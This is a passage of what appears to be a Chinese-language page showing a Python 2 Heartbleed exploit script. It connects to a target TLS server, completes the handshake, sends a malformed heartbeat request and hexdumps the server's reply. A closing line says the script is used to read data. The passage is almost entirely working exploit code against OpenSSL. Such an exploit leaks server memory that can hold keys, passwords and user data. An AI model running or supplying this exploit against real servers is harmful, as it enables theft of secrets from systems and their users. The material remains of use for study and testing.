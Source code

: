 ```
                print 'Server processed malformed heartbeat, but did not return any extra data.'
            return True

        if typ == 21:
            print 'Received alert:'
            hexdump(pay)
            print 'Server returned error, likely not vulnerable'
            return False

def main():
    opts, args = options.parse_args()
    if len(args) < 1:
        options.print_help()
        return

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print 'Connecting...'
    sys.stdout.flush()
    s.connect((args[0], opts.port))
    print 'Sending Client Hello...'
    sys.stdout.flush()
    s.send(hello)
    print 'Waiting for Server Hello...'
    sys.stdout.flush()
    while True:
        typ, ver, pay = recvmsg(s)
        if typ == None:
            print 'Server closed connection without sending Server Hello.'
            return
        # Look for server hello done message.
        if typ == 22 and ord(pay[0]) == 0x0E:
            break

    print 'Sending heartbeat request...'
    sys.stdout.flush()
    s.send(hb)
    hit_hb(s)

if __name__ == '__main__':
    main()

```

使用如上的脚本进行数据读取。
